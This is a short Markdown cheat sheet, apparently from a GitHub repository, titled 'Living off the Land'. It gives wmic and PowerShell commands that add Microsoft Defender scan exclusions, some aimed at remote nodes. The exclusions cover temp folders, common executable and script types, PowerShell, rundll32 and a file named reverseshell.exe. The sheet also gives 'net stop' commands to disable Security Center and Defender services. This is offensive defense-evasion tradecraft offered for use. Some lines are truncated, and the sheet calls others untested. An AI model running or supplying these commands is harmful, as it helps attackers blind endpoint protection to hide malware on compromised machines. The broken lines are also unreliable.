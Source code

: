 # Living off the Land

## 01 - Add Exclusions

Note: You must run this as administrator add any exclusions

### 1.1 - Command Prompt

```
C:\> wmic [/node:<IP>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"

C:\> wmic [/node:<IP>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"\Temp\\"

C:\> wmic [/node:<IP>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\".dll\"

C:\> wmic [/node:<IP>] /namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath=\"rundll32.exe\"
```

### 1.2 - Powershell

```
PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp

PS C:\> Add-MpPreference -ExclusionProcess powershell.exe

PS C:\> Add-MpPreference -ExclusionExtension ".exe"

PS C:\> Add-MpPreference -ExclusionExtension ".bat"

PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp\reverseshell.exe
```

## 02 - Windows Security

### 2.1 - Disable

#### 2.1.1 - Command Prompt

```
C:\> net stop "Security Center"
```

Note: Just the rest of these are not tested just yet

```
C:\> net stop "WdNisSvc"

C:\> net stop "WdNisDrv"

C:\> net stop "WdFilter"

C:\> net stop "WdBoot"

C:\> net stop "wcncsvc"
```

